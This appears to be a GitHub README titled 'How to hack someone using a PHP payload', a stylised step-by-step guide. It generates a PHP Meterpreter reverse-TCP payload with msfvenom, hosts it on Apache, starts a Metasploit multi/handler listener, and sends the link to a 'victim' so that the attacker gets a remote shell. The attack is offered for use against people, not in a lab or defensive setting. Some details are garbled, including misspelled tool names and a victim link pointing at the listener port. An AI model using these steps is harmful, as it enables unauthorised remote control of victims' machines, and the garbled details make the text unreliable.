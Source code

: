 # HOW-TO-HACK-SOMEONE-USING-A-PHP-PAYLOAD
HOW TO HACK SOMEONE USING A PHP~PAYLOAD

💖sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴘᴀʏʟᴏᴀᴅs ᴡɪᴛʜ ᴘʜᴘ ᴜsɪɴɢ ᴍsғᴠᴇᴍᴏɴ

💖ᴡʜᴀᴛ ɪs ᴍsғᴠᴇᴍᴏɴ?? ᴡᴇʟʟ ᴍᴇᴛᴀsᴘʟᴏɪᴛ ғʀᴀᴍᴇᴡᴏʀᴋ ᴠᴇɴᴏᴍ ɪs ᴀ ᴘᴀʏʟᴏᴀᴅ ɢᴇɴ ᴜsᴇᴅ ᴏɴ ʟɪɴᴜɴx ᴛᴏ ɢᴇɴᴇʀᴀᴛᴇ ᴘᴀʏʟᴏᴀᴅs ғᴏʀ ᴇxᴘʟᴏɪᴛᴀᴛɪᴏɴ

💖ʟᴇᴛs sᴛᴀʀᴛ ʙʏ sᴛᴀʀᴛɪɴɢ ᴀᴘᴀᴄʜᴇ2 sᴏ ᴏᴘᴇɴ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:

–––––––––––––––––––
sᴇʀᴠɪᴄᴇ ᴀᴘᴀᴄʜᴇ2 sᴛᴀʀᴛ


🌀sᴛᴇᴘ 1:
ɴᴏᴡ ᴡᴇ ɴᴇᴇᴅ ᴏᴜʀ ʟᴏᴄᴀʟ ɪᴘ ᴏʀ ᴇxᴛᴇʀɴᴀʟ ɪᴘ ғᴏʀ ʟᴏᴄᴀʟ ɪᴘ ᴇɴᴛᴇʀ

ᴄᴏᴅᴇ:

–––––––––––––––––––
ɪғᴄᴏɴғɪɢ
ᴀɴᴅ ғᴏʀ ᴇxᴛᴇʀɴᴀʟ ɢᴏᴏɢʟᴇ ᴡʜᴀᴛs ᴍʏ ɪᴘ
ɴᴏᴛᴇ ɪғ ᴜsɪɴɢ ᴇxᴛᴇʀɴᴀʟ ʟɪɴᴋ ᴜ ɴᴇᴇᴅ ᴛᴏ ғᴏʀᴡᴀʀᴅ ᴛʜᴇ ᴘᴏʀᴛs ᴏɴ ʏᴏᴜʀ ʀᴏᴜᴛᴇʀ

🌀sᴛᴇᴘ 2:
ɴᴏᴡ ʏᴏᴜ ʜᴀᴠᴇ ᴛʜᴇ ʟᴏᴄᴀʟ ɪᴘ, sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ
ᴇɴᴛᴇʀ ᴛʜɪs ᴄᴏᴍᴍᴀɴᴅ:

ᴄᴏᴅᴇ:

–––––––––––––––––––
ᴍsғᴠᴇɴᴏᴍ -ᴘ ᴘʜᴘ/ᴍᴇᴛᴇʀᴘʀᴇᴛᴇʀ/ʀᴇᴠᴇʀsᴇ_ᴛᴄᴘ ʟʜᴏsᴛ= 192.168.8.107 ʟᴘᴏʀᴛ=4444 -ᴇ ᴘʜᴘ/ʙᴀsᴇ64 -ғ ʀᴀᴡ > /ʀᴏᴏᴛ/ᴅᴇsᴋᴛᴏᴘ/ʜᴏᴍᴇ.ᴘʜᴘ

🌀sᴛᴇᴘ 3:

ɴᴏᴡ ɢᴏ ᴛᴏ ᴛʜᴇ ᴅᴇsᴋᴛᴏᴘ ᴀɴᴅ ᴄᴏᴘʏ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ ᴛᴏ ʏᴏᴜʀ ʜᴛᴍʟ ғɪʟᴇ ɪɴ /ᴠᴀʀ/ᴡᴡ ᴡ/ʜᴛᴍʟ ғᴏʟᴅᴇʀ
ʀᴇᴍᴏᴠᴇ ᴛʜᴇ sᴘᴀᴄᴇ ^^

🌀sᴛᴇᴘ 4:

ɴᴏᴡ ᴏᴘᴇɴ ᴀ ɴᴇᴡ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:

–––––––––––––––––––
MSFCONSOL

🌀sᴛᴇᴘ 5:

TYPE BELOW COMMAND'S

ᴄᴏᴅᴇ:

–––––––––––––––––––
USE EXPLOIT/MULTI/HANDLER

ᴄᴏᴅᴇ:

–––––––––––––––––––
SET PAYLOAD PHP/METERPRETER/REVERSE_TCP

ᴄᴏᴅᴇ:

–––––––––––––––––––
SET LHOST [YOUR LOCAL IP]

ᴄᴏᴅᴇ:

–––––––––––––––––––
SET LPORT 4444

ᴄᴏᴅᴇ:

–––––––––––––––––––
EXPLOIT

🌀sᴛᴇᴘ 6:

ɴᴏᴡ sᴇɴᴅ ᴛʜᴇ ᴠɪᴄᴛᴜᴍ ᴛʜᴇ ʟɪɴᴋ 192.168.8.107:4444/Home.php

🌀sᴛᴇᴘ 7:

ɴᴏᴡ ᴛʏᴘᴇ ʜᴇʟᴘ ᴀɴᴅ ʏᴏᴜ ɢᴇᴛ ᴀ ғᴜʟʟ ʟɪsᴛ ᴄᴏᴍᴍᴀɴᴅs ʏᴏᴜ ᴄᴀɴ ʀᴜɴ ᴜɴᴅᴇʀ ᴍᴇᴛᴀsᴘʟᴏɪᴛ

